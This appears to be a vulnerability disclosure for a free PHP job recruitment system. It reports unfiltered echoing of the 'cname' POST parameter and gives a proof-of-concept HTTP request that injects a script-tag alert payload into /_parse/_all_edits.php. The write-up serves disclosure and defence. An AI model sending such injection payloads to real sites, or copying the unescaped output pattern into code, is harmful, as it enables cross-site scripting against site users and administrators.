 # job-recruitment-in-php has Cross Site Scripting vulnerability in cname parameter

## supplier 
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
cname  parameter

## describe

In  cname  parameter, There is a cross-site scripting attack  vulnerability in Job-recruitment system. The parameter that can be controlled is: cname  parameter . A malicious attacker can obtain sensitive information about administrators.

**Code analysis** 

echo $_POST['cname'];

get cname parameter from post, and echo cname in no filtter.

![image-20241226013913817](https://github.com/user-attachments/assets/4a09d565-c48d-4e61-9279-d10b91d4dc02)

## POC

```
POST /_parse/_all_edits.php HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://airecruitmentsystem
Connection: close
Referer: http://airecruitmentsystem/_parse/_all_edits.php
Cookie: PHPSESSID=etso55q58ionvmrvpetmaf8urt
Upgrade-Insecure-Requests: 1
Priority: u=0, i

action=cn_update&cname=<script>alert(1);</script>&url=1*
```

**Result**

![image-20241226014042311](https://github.com/user-attachments/assets/4e99c0fa-aee2-4ae1-84ed-8e5c1c82cd42)